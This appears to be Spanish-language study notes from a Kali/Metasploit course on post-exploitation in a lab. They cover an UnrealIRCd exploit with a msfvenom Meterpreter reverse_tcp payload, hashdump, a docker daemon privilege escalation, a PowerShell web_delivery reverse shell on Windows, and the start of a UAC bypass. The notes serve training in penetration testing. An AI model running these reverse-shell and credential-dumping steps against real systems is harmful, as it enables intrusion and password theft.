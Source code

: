 # 04 KALI - Post-explotación

## Meterpreter para post-explotación

- Los módulos de explotación están en  /usr/share/metasploit-framework/modules/post
- Aqui vemos que hay módulos de post explotación para varios sistemas y aplicaciones
- Para establecer un meterpreter vamos a tener que explotar algunas de las vulnerabilidades del sistema
- Veamos primero con Ubuntu
- desde mi kali busco por la vulnerabilidad unrealirc

> msf> search unrealirc
> msf> use unreal/....
- Si entro en el exploit de irc_unreal y le pongo show payloads ninguno es un meterpreter, son cmds
- back para salir
- Creo un payload con msfvenom, le paso mi ip

> msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.16.128  lport=444

- Me devuelve en pantalla mi payload (todo lo que hay después de exec)
- Lo copio 
- Busco el exploit de unreal que ya tenia de antes y copio el código salvando las comillas simples con \ antes de la comillas simples
- Al principio debo colocar f'python -c"exec(...)
- Pongo a la escucha un handler

> msf> use exploit/multi/handler
> msf> show options
> msf> set lhost mi_IP
> msf> set lport 444
> msf> exploit

- Se queda a la escucha
- En otra consola, desde el path donde tengo el exploit lo lanzo a mi ip objetivo

> ./exploit.py 192.168.1.133 -payload python

- Se ha abierto la sesión meterpreter
- Hay que saber que tipo de usuario soy, user normal, admin, que privilegios tengo

> getuid

- En los módulos de post explotación en /post/linux/gather
- Tengo un modulo que es para ver si está corriendo en una máquina virtual
- Desde meterpreter

> meterpreter> run /post/linux/gather/checkvm

- Puedo tratar de hacer un dump de todos los hashes
> meterpreter> run /post/linux/gather/hashdump

- No tengo privilegios para hacerlo
- Puedo usar exploits locales para escalar privilegios
- Mando a un segundo plano el meterpreter

> meterpreter> background

- Puedo ver mis sesiones con sessions

> msf> session

- Puedo buscar con un sugeridor de exploits
> msf> use post/multi/recon/local_exploit_suggester
msf post(multi)> show options

- Lo que recibe es una sesión activa  

> msf post(multi) set session 1
> msf post(multi) exploit

- Hay un exploit para docker que si funciona

> msf> search doker_daemon
> msf> use 1 (docker daemon scalate privileges)
> msf> show options

- Es un exploit local, por lo que ya debo tener comprometida la máquina (es el caso)
- Me pide la sesión y el payload me pide el lhost y el lport
> msf> set session 1
- Le metemos otro payload que el que lleva

> msf> set payload linux/x86/meterpreter/reverse_tcp
> msf> set lhost MI_IP

- Esto intentará escalar privilegios y devolverme un meterpreter

>msf>exploit

- Esto ejecuta el exploit desde la session 1 que tenia abierta y me abre una session 2 con otro meterpreter

> meterpreter> getuid

- Ahora si puedo usar el hashdump!
-----

## Meterpreter post-explotación windows
 
- Vamos a usar otro módulo de metasploit que se llama web deliver y ejecutar un script manualmente desde windows para que nos devuelva unsa shell reversa
- Windows tiene la IP .137 
- En metasploit

> msf> use exploit/multi/script/web_delivery
> msf> show options

- me pide el payload, el lhost...nos generará el payload automáticamente que deberé ejecutar en la máquina destino

> msf> show targets
> msf> set target powershell
> msf> set payload windows/x64/meterpreter/reverse_tcp
> msf> set lhost IP_KALI
> exploit

- Me genera el payload en pantalla y me dice de ejcitarlo en la máquina objetivo para obtener una shell reversa
- Podría generar un ejecutable camuflado
- No hace falta configurar un listener
- Ejecuto el código en la powershell de windows
- me abre un meterpreter

> msf> session 1
> meterpreter> getuid
> meterpreter> getsystem -h (intentará subir privilegios)
- Voy a los modulos de post /usr/share/metasploit-framework/modules/post/windows
- Porque es util saber si es una máquina virtual? Puede ser un Honey Pot (trampa)

> run /post/windows/gather/hashdump

- Para conseguir permisos de admin mando esta sesión a background

> meterpreter> background

- Puedo hacer que metsploit me sugiera exploits
> msf> use post/multi/recon/local_exploit_suggester
> msf> set session 1
> msf> exploit

- A ver si asi averiguamos como podemos escalar privilegios
- Sugiere uac_bypass
> msf(local_exploit_suggester)> back
> msf> use uac/kñklñk
> msf(uac)> show options

- El uac de windows es el popup cuando pregunta si permites darle permisos a la shell para hacer cambios en el equipo
- El bypass nos permite saltarnos este uac
etc... luego lo vemos!
-----

## Elevación de privilegios UAC